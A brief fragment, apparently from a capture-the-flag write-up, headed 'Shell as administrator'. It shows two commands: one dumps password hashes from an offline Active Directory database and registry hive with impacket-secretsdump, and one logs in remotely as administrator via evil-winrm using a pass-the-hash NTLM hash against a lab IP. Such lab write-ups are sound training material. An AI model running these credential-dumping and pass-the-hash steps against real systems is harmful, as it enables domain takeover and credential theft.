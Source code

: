 ## Shell as administrator

```bash
impacket-secretsdump -system system.hiv -ntds ntds.dit LOCAL
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```